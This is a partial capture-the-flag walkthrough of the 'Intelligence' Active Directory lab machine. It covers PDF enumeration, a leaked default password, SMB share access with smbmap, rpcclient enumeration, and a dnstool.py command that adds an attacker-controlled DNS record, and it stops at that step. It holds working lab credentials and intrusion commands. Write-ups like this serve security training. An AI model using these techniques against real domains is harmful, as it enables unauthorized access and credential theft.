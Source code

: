 ### Intelligence

So, the usual domain controller ports are open

after looking at some usual AD things  for some time, like SMB shares, ASREP roasting, lookupsids.py, none of them seem to have worked

now, lets do a bit of web enum

so the documents that we have on the site have a format on them, so we can try to see if there are more files in those format

`python3 sc.py  > pdflist`

lets bruteforce this with ffuf, we got a bunch of pdf files, out of which, one of them gives us the creds for a molina user

`pdf:tiffany.molina:NewIntelligenceCorpUser9876`

so user is as simple as this, lets have a look at smbmap

`smbmap -H 10.10.10.248 -u 'tiffany.molina' -p 'NewIntelligenceCorpUser9876'`

we have read access on IT and USers (which are the only useful ones), so the Users dir gives us the user flag if we do

`smbmap -H 10.10.10.248 -u 'tiffany.molina' -p 'NewIntelligenceCorpUser9876' -R Users -A user.txt`

R names a share, and A names the files with that name to be picked up

we got some creds, now,

`rpcclient 10.10.10.248 -U 'tiffany.molina'` with her password gives us some flexibility to enumerate

lets save users to users files

we see a script in smb share for tiffany, so the script is basically querying the ADDS database for objects and grepping for a name of web*

`python3 dnstool.py -u intelligence.htb\\tiffany.molina -p NewIntelligenceCorpUser9876 -a add -r wwwnot.intelligence.htb -d 10.10.14.77 10.10.10.248`

